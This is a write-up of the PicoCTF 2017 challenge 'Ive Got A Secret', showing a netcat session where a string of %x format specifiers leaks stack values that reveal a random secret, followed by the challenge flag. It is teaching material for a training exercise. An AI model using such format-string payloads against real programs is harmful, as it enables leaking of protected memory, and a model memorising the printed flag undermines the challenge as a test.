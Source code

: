 # PicoCTF 2017- Level 2 - Binary Exploitation 4

**Title:** Ive Got A Secret  
**Category:** Binary Exploitation  
**Points:** 75  
**Description:**

>Hopefully you can find the right format for my [secret](secret)! [Source](secret.c). Connect on shell2017.picoctf.com:6805.  

**Hint:**

>This is a beginning format string attack.  

## Solution

Basically, what this program does is to get a random number from `dev/urandom` labelled as `secret`, ask us for a string, display that string, and then ask us to guess the secret number.
As hinted we must use a [Format String Attack](https://www.owasp.org/index.php/Format_string_attack) to solve this problem.  
    $ nc shell2017.picoctf.com:6805  
    Give me something to say!  
    %x %x %x %x %x %x %x %x  
    40 f7fc7c20 8048792 1 ffffdd34 2cc6cf93 3 f7fc73c4  
    Now tell my secret in hex! Secret: a  
    As my friend says,"You get nothing! You lose! Good day, Sir!"  

Let's try again:
    $ nc shell2017.picoctf.com:6805  
    Give me something to say!  
    %x %x %x %x %x %x %x %x  
    40 f7fc7c20 8048792 1 ffffdd34 bd10c60a 3 f7fc73c4  
    Now tell my secret in hex! Secret: bd10c60a  
    d2b1dd0dc7b29ccfb612d9978d9f9ca4  
    Wow, you got it!  

To get the flag, we noticed that only 1 variable wass changing:
    40 f7fc7c20 8048792 1 ffffdd34 __2cc6cf93__ 3 f7fc73c4  
    40 f7fc7c20 8048792 1 ffffdd34 __bd10c60a__ 3 f7fc73c4    

This variable was the `secret` one, encoded in hex.  

The flag for this problem is `d2b1dd0dc7b29ccfb612d9978d9f9ca4`